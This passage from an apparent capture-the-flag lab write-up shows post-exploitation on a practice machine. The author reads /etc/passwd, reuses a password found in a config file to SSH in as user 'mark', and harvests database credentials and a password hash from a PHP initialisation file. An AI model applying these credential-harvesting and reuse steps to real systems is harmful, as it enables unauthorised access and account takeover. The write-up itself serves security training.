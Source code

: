 we can access mysql with 
```bash
> mysql -u mysqluser -p
```

but it doesn't give us anythjing we haven't already found

trying to access with root provides the error:
```
ERROR 1524 (HY000): Plugin 'auth_socket' is not loaded
```

maybe the credential "2020bestyearofmylife" is reused somewhere

we check /etc/passwd for users
```sh
> cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
mark:x:1000:1000:,,,:/var/www/html:/bin/bash

```

so maybe mark has put this credential here when configuring, what if it is reused by him on the host? let's try to ssh as mark

```bash
> ssh mark@10.129.76.130
```

using "2020bestyearofmylife" we get in as mark and find user.txt.

## Privilege Escalation - Second User
Let's repeat our credential harvesting technique in `/var/www/html/vendor`

"mastermailer" and "oldmanagement" have the same config (except pointed at the docker container instead of localhost) so we will look at exams

in `/var/www/html/vendor/exams/initialize.php` we see a new configuration, but with the same credentials 
```php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');
if(!defined('base_url')) define('base_url','http://exams.seventeen.htb/');
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"172.18.0.1");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"mysqluser");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"mysqlpassword");
if(!defined('DB_NAME')) define('DB_NAME',"erms_db");
?>

```

at the home directory of mark we find `.npm` which is normally not seen. Investigating further there is an directory referencing a local service, let's see if it's running
